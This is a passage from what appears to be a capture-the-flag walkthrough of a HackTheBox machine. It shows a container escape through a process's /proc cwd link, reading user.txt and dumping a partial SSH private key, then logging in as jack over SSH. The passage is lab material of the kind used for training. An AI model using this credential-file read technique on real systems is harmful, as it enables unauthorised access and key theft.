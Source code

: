 But with this foothold into the host file system, I can look outside the
jail and into that directory:



    /proc/1195 $ ls -la cwd/
    total 36
    drwxr-x---    4 1000     1000          4096 Feb 14 18:52 .
    drwxr-xr-x    4 root     root          4096 Sep 29 13:47 ..
    lrwxrwxrwx    1 root     root             9 Sep 29 12:16 .bash_history -> /dev/null
    -rw-r--r--    1 1000     1000           220 Jan  6  2022 .bash_logout
    -rw-r--r--    1 1000     1000          3771 Jan  6  2022 .bashrc
    drwx------    2 1000     1000          4096 Feb 10 22:44 .cache
    -rw-r--r--    1 1000     1000           807 Jan  6  2022 .profile
    drwx------    2 1000     1000          4096 Sep 29 13:47 .ssh
    -rw-------    1 1000     1000          1423 Feb 14 18:52 .viminfo
    -rw-r-----    1 root     1000            33 Feb  9 22:11 user.txt



And even read `user.txt`:



    /proc/1195 $ cat cwd/user.txt
    8ad82817************************



There's also a key in `.ssh`:



    /proc/1195 $ ls cwd/.ssh
    authorized_keys  id_rsa           known_hosts
    /proc/1195 $ cat cwd/.ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEA7Ce/LAvrYP84rAa7QU51Y+HxWRC5qmmVX4wwiCuQlDqz73uvRkXq
    qdDbDtTCnJUVwNJIFr4wIMrXAOvEp0PTaUY5xyk3KW4x9S1Gqu8sV1rft3Fb7rY1RxzUow
    SjS+Ew+ws4cpAdl/BvrCrw9WFwEq7QcskUCON145N06NJqPgqJ7Z15Z63NMbKWRhvIoPRO
    JDhAaulvxjKdJr7AqKAnt+pIJYDkDeAfYuPYghJN/neeRPan3ue3iExiLdk7OA/8PkEVF0
    ...[snip]...



It turns out this same vulnerability works in the original container,
allowing for skipping of the file read. I'll look at why in [Beyond
Root](#beyond-root).

### SSH

That key works to get a SSH connection as jack on the host:



    oxdf@hacky$ ssh -i ~/keys/rainyday-jack jack@rainycloud.htb 
    Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-50-generic x86_64)
    ...[snip]...
    jack@rainyday:~$
